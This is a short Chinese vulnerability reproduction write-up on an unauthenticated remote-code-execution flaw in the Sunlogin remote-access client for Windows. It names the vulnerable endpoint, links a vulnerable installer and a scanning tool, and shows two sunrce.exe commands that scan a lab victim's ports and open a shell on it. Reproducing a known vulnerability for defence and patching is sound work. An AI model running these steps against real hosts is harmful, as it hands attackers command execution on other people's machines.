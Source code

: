 # 漏洞简介
向日葵个人版企业版均受影响 for Windows <=11.0.0.33

SunloginClient 启动后会在 40000 以上随机开放一个web端口，认证有问题可以直接通过cgi-bin/rpc?action=verify-haras获取cid 执行回显rce
[测试向日葵客户端漏洞版本:11.0.0.33826](https://download.csdn.net/download/qq_38162031/83510028)


# 复现过程
**环境说明**
 
```
攻击机:192.168.0.23(Window10)
目标机:192.168.0.24(windows2012)

测试向日葵客户端漏洞版本:11.0.0.33826


```


![image.png](https://geekrabbit-1308222610.cos.ap-beijing.myqcloud.com/image_1646482367741.png)

[向日葵漏洞扫描工具下载地址](https://download.csdn.net/download/qq_38162031/83506954)

**扫描受害机漏洞端口**
```language
sunrce.exe -h 192.168.0.24 -ps -shell
```


![image.png](https://geekrabbit-1308222610.cos.ap-beijing.myqcloud.com/image_1646483661733.png)

**获取受害机shell**
```language
sunrce.exe -h 192.168.0.24 -ps 49341 -shell
```


![image.png](https://geekrabbit-1308222610.cos.ap-beijing.myqcloud.com/image_1646483169316.png)


# 漏洞修复
厂商已发布了漏洞修复程序，请及时关注更新